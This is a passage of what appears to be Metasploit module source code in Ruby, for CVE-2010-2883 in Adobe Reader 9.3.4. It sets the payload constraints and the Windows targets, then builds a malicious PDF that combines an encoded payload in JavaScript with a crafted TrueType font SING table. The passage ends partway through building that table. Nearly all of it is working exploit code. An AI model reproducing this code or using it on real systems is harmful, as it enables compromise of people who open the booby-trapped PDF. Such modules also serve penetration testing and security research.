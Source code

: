 				'Payload'        =>
					{
						'Space'    => 1000,
						'BadChars' => "\x00",
						'DisableNops' => true
					},
				'Platform'       => 'win',
				'Targets'        =>
					[
						# Tested OK via Adobe Reader 9.3.4 on Windows XP SP3 -jjd
						# Tested OK via Adobe Reader 9.3.4 on Windows 7 -jjd
						[ 'Automatic', { }],
					],
				'DisclosureDate' => 'Sep 07 2010',
				'DefaultTarget'  => 0))
	 
			register_options(
				[
					OptString.new('FILENAME', [ true, 'The file name.',  'msf.pdf']),
				], self.class)
		end
	 
		def exploit
			ttf_data = make_ttf()
	 
			js_data = make_js(payload.encoded)
	 
			# Create the pdf
			pdf = make_pdf(ttf_data, js_data)
	 
			print_status("Creating '#{datastore['FILENAME']}' file...")
	 
			file_create(pdf)
		end
	 
		def make_ttf
			ttf_data = ""
	 
			# load the static ttf file
	 
			# NOTE: The 0day used Vera.ttf (785d2fd45984c6548763ae6702d83e20)
			path = File.join( Msf::Config.install_root, "data", "exploits", "cve-2010-2883.ttf" )
			fd = File.open( path, "rb" )
			ttf_data = fd.read(fd.stat.size)
			fd.close
	 
			# Build the SING table
			sing = ''
			sing << [
				0, 1,   # tableVersionMajor, tableVersionMinor (0.1)
				0xe01,  # glyphletVersion
				0x100,  # embeddingInfo
				0,      # mainGID
				0,      # unitsPerEm
				0,      # vertAdvance
				0x3a00  # vertOrigin
			].pack('vvvvvvvv')